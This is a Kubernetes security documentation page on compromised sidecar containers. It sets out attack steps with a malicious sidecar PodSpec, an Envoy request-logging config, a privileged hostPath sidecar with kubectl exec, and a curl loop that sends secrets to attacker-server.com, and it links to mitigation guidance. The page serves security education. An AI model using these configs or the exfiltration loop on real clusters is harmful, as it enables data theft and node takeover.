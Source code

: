 ```yaml
---
sidebar_position: 16
title: "Compromised Sidecars"
description: "How attackers exploit insecure or malicious sidecar containers to intercept data, escalate privileges, and persist within Kubernetes clusters."
---
```


# Compromised Sidecars

**Sidecar containers** in Kubernetes extend the functionality of primary application containers by handling logging, monitoring, security, or proxy services. If **misconfigured, compromised, or maliciously injected**, attackers can use sidecars to **steal sensitive data, intercept requests, escalate privileges, and persist within the cluster**.

---

## Exploitation Steps: Abusing Sidecars for Malicious Activity

An attacker exploits **insecure or compromised sidecar containers** to manipulate traffic, extract sensitive data, or maintain persistence.

### Step 1: Deploy a Malicious Sidecar

If an attacker gains control over a workload’s **PodSpec**, they inject a **malicious sidecar** to intercept application data.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-sidecar
spec:
  containers:
    - name: legitimate-app
      image: secure-app:latest
    - name: malicious-sidecar
      image: attacker/spy-container
      volumeMounts:
        - mountPath: /app-data
          name: shared-volume
  volumes:
    - name: shared-volume
      emptyDir: {}
```

Once deployed, the malicious sidecar can **exfiltrate logs, credentials, and API responses**.

### Step 2: Intercept and Modify Traffic

Sidecars are commonly used for **service mesh proxies** and **logging agents**. An attacker abuses a misconfigured sidecar to intercept **sensitive API requests**.

Example: Capturing all incoming requests in an **Envoy sidecar**:

```yaml
admin:
  access_log_path: "/dev/stdout"
  profile_path: "/var/lib/envoy/profile"
static_resources:
  listeners:
    - address: "0.0.0.0"
      filter_chains:
        - filters:
            - name: "envoy.http_connection_manager"
              config:
                codec_type: "AUTO"
                access_log:
                  - name: "envoy.file_access_log"
                    config:
                      path: "/data/logs/requests.log"
```

Captured API responses contain **JWT tokens, credentials, and user data**.

### Step 3: Abuse Privileged Sidecars for Host Access

If a sidecar runs **with elevated privileges**, an attacker can escalate access to the host.

Example: A misconfigured sidecar with **hostPath volume access**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privileged-sidecar
spec:
  containers:
    - name: main-app
      image: secure-app
    - name: sidecar
      image: attacker/root-access
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /host
          name: host-volume
  volumes:
    - name: host-volume
      hostPath:
        path: /
        type: Directory
```

Once inside the pod, the attacker **gains control over the Kubernetes node**.

```bash
kubectl exec -it privileged-sidecar -- /bin/sh
ls /host/etc/
```

### Step 4: Persist Within the Cluster

Attackers use **malicious sidecars** to maintain long-term access, even if the primary container is removed.

- **Hidden Reverse Shell:** The sidecar listens for remote commands.
- **Stealthy Traffic Proxy:** The sidecar routes traffic to an attacker-controlled server.
- **Scheduled Data Exfiltration:** The sidecar periodically sends logs and credentials.

Example: Backdoor inside a sidecar container:

```bash
while true; do cat /data/secrets.txt | curl -X POST -d @- http://attacker-server.com/upload; sleep 60; done
```

Even if the **main container is deleted**, the sidecar remains **running and active**.

### Result

The attacker successfully **intercepted sensitive data, modified traffic, escalated privileges, and persisted within the cluster** using a compromised or malicious sidecar.

---

## Mitigation Steps

To protect against **compromised sidecars**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Sidecars](/docs/best_practices/cluster_setup_and_hardening/compromised_sidecars_mitigation)**

This guide covers techniques such as **restricting sidecar permissions, enforcing strict security contexts, implementing service mesh policies, and monitoring sidecar activity** to prevent unauthorized use.
